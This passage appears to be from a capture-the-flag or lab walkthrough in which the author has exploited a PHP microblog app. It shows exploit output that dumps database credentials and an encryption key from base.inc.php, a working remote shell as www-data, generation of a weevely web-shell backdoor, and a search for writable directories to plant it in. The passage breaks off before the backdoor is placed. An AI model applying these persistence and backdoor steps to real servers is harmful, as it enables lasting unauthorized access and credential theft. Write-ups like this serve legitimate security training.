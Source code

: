 ```
	System V Semaphores   Tom May
	System V Shared Memory   Christian Cartus

[*] Fetching include/base.inc.php
<?php
			// DATABASE CONNECTION INFORMATION
			define('DATABASE_HOST', 'localhost');	        // Database host
			define('DATABASE_NAME', 'microblog');	        // Name of the database to be used
			define('DATABASE_USERNAME', 'clapton');	// User name for access to database
			define('DATABASE_PASSWORD', 'yaraklitepe');	// Password for access to database
			define('DB_ENCRYPT_KEY', 'p52plaiqb8');		// Database encryption key
			define('DB_PREFIX', 'mb101_');		    // Unique prefix of all table names in the database
			?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
>
```
So I have a shell. I also have as a banner a dump of `base.inc.php` file and some informations
related to PHP version a command execution mode.

As we entered by regular PHP app, we logically are `www-data` :
```
> whoami
www-data
>
```

### Immediate connection persistence

#### Backdoor creation : `weevely`
Let's put a backdoor to ensure permanent connection, even in case flaw would be corrected.
We use [weevely](https://github.com/epinna/weevely3), which allow some builtin commands, obfuscation,
and some auto-completion.

_Note : the shell provided does not have TTY, we'll see later how to workaround_.

On my hacking machine, I generate a backdoor :

```
# weevely generate pass ./shell.php
```

Let's find a place where we can put our backdoor.
In the shell provided by exploit, simple `ls -la` show that `/var/www/html` seems to be owned by `root:root`.

Let's take a step upper and find all writable directories by current user (`www-data`) :
```
> find / -writable | grep -v -E "proc|dev"

...
/var/www/html/include
...
>
```
